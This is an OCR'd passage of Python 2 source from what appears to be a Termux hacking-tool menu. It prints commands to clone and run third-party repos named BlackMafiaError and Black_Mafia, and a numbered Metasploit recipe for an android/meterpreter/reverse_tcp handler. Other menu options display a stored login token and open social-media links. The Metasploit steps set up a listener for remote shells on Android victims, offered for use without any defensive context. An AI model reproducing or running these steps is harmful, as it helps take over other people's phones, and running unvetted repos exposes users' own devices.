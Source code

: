                 jalan('\033[1;91mpkg update ')
                jalan('\033[1;91mpkg upgrade')
                jalan('\033[1;91mpkg install python2 ')
                jalan('\033[1;91mpip2 install mechanize')
                jalan('\033[1;91mpkg install git ')
                jalan('\033[1;91mpip2 install mechanize ')
                jalan('\033[1;91mpip2 install requests ')
                jalan('\033[1;91mgit clone https://github.com/lovehacker404/BlackMafiaError')
                jalan('\033[1;91mcd BlackMafiaError')
                jalan('\033[1;91mpython2 Error.py')
                jalan('\033[1;92m⭕No20⭕')
                jalan('\033[1;91mapt update')
                jalan('\033[1;91mapt upgrade -y ')
                jalan('\033[1;91mpkg install python -y ')
                jalan('\033[1;91mgit clone https://github.com/lovehacker404/Black_Mafia')
                jalan('\033[1;91mcd Black_Mafia')
                jalan('\033[1;91mpython3 Black_Mafia.py')
                jalan('\033[1;91m#Metasploit Commands')
                jalan('\033[1;91m》》Requirements:-')
                jalan('\033[1;91m1: Termux App (From Playstore)')
                jalan('\033[1;91m2: Good Internet connection  (Must)')
                jalan('\033[1;91m3: 2GB free Storage  (Must)')
                jalan('\033[1;91m4: Android Version 5.0+ (Must)')
                jalan('\033[1;91m5: 4GB+ RAM')
                jalan('\033[1;91m6: Fast Processor')
                jalan('\033[1;91m#installation')
                jalan('\033[1;91m1: pkg update')
                jalan('\033[1;91m2: pkg upgrade')
                jalan('\033[1;91m3: pkg install unstable-repo')
                jalan('\033[1;91m4: pkg install metasploit')
                jalan('\033[1;91m5: msfconsole')
                jalan('\033[1;91m6: use exploit/multi/handler')
                jalan('\033[1;91m7: set payload android/meterpreter/reverse_tcp ')
                jalan('\033[1;91m8: set lhost ')
                jalan('\033[1;91m9: set lport 8080')
                jalan('\033[1;91m10: exploit')
		os.system('git pull origin master')
		raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
		menu()
        elif unikers =="7":
		os.system('xdg-open https://chat.whatsapp.com/FmuKakzK8oV3Rp6gpf9Xqr')
	        menu()
        elif unikers =="8":
	        os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
	        menu()
        elif unikers =="9":
		tokenz()
        elif unikers =="10":
		os.system('reset')
		print logo14
		toket=open('login.txt','r').read()
		print "\033[1;91m[+] \033[1;95mYour token\033[1;91m :\033[1;96m "+toket
		raw_input("\n\033[1;91m[ \033[1;93mBack \033[1;91m]")
		menu()
	elif unikers =="11":
		os.system('clear')
		print logo6
		print "\033[1;95m«-----------------\033[1;91mDataReset\033[1;95m---------------»"
                jalan('\033[1;96m=10%')
                jalan("\033[1;96m==20%")
                jalan('\033[1;96m===30%')
                jalan('\033[1;96m====40%')
                jalan("\033[1;96m=====50%")
                jalan("\033[1;96m======60%")